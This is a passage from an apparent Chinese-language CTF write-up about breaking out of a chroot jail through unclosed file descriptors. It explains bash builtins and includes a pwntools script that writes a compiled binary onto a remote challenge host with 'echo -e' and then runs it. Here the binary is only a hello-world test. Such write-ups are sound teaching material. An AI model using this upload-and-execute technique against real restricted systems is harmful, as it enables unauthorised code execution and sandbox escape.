 这几个文件描述符所指向的文件当前的ROOT以外，所以可以直接去利用这些打开未关闭的文件描述符进行chroot jailbreak。

## 利用

### 哪来的echo？

我进入这题就很懵，最后会通过popen执行一条命令，简言之就是bash上执行一个命令，通过以上的分析我应该是想办法操作父进程未关闭的那个文件描述符，但是我咋在bash上获得文件描述符并利用呢？我咋在bash上使用系统调用？后来问了室友，说可以用echo命令写二进制可执行程序，然后运行，但是不是只给我三个东西么：bash，tee，chmod，没有echo啊。试了一下echo还真行，我所理解命令行工具不都是一个二进制文件么，没有echo这个程序，那他是咋运行的？直到我发现：

```bash
➜  which echo
echo: shell built-in command
```

原来echo是一个shell内建命令，参考：[Bash-Builtins](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Bash-Builtins)。而且之前不太明白powershell和cmd区别，网友说了一堆我也没看明白，[PowerShell 与 cmd 有什么不同？](https://www.zhihu.com/question/22611859)，现在有些明白了，就是shell或者cmd东西不仅仅是一个可以运行可执行程序的一个壳，而且自己实现了一些功能的，比如shell的内建命令和shell脚本的运行。在《程序员的自我修养》中是有一节是写一个简易的shell，那才是一个纯纯的壳。

另外虽然没有给ls，但还是能通过一些shell的技巧来列目录，比如：

```c
➜  echo *
bin lib lib64
```

### 写入二进制文件

可以利用echo -e 写入二进制数据：

```
➜  echo -e "\x61\x62\x63\x64" > out
➜  cat out
abcd
```

所以写了从gcc编译到上传的完整流程脚本，注意在写完c代码文件后一定要close掉，否则在gcc编译的时候这个c代码文件是空的，因为还没有保存。

```python
import os
from pwn import *

io = remote("grjt.game.redbud.info",20003)

code = '''
#include <stdio.h>
int main(){
	printf("[+] from server\\n");
    return 0;
}
'''

a = open('hello.c','w')
a.write(code)
a.close()
os.system("gcc hello.c -o hello")
b = open("./hello").read().encode("hex")

c = ""
for i in range(0,len(b),2):
	c += '\\x'+b[i]+b[i+1]
payload = 'echo -e "'+c+'"'+'> exp;chmod +x exp; ./exp'
print "[+] length: " + hex(len(payload))

io.recv()
io.sendline("xuan")
io.recv()
```